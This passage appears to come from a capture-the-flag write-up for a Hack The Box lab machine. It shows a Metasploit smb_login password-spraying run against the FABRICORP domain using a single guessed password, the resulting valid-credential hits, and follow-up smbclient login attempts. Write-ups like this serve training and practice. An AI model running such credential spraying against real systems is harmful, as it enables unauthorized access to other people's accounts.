 ```text
   RHOSTS             10.10.10.193     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/smb/smb_login) > set user_file users
user_file => users
msf5 auxiliary(scanner/smb/smb_login) > set smbpass Fabricorp01
smbpass => Fabricorp01
msf5 auxiliary(scanner/smb/smb_login) > set smbdomain FABRICORP
smbdomain => FABRICORP
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.193:445      - 10.10.10.193:445 - Starting SMB login bruteforce
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\pmerton:Fabricorp01',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\tlavel:Fabricorp01'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\sthompson:Fabricorp01',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\bhult:Fabricorp01'
[-] 10.10.10.193:445      - 10.10.10.193:445 - Failed: 'FABRICORP\administrator:Fabricorp01',
[+] 10.10.10.193:445      - 10.10.10.193:445 - Success: 'FABRICORP\bnielson:Fabricorp01'
[*] 10.10.10.193:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

After running the `smb_login` scanner I found that not only had one person used this as their password, but three people had!

```text
┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ smbclient -U "FABRICORP\bnielson" -L \\\\10.10.10.193\\
Enter FABRICORP\bnielson's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE

┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ smbclient -U "FABRICORP\tlavel" -L \\\\10.10.10.193\\                                           1 ⨯
Enter FABRICORP\tlavel's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE

┌──(zweilos㉿kali)-[~/htb/fuse]
└─$ smbclient -U "FABRICORP\bhult" -L \\\\10.10.10.193\\                                            1 ⨯
Enter FABRICORP\bhult's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```
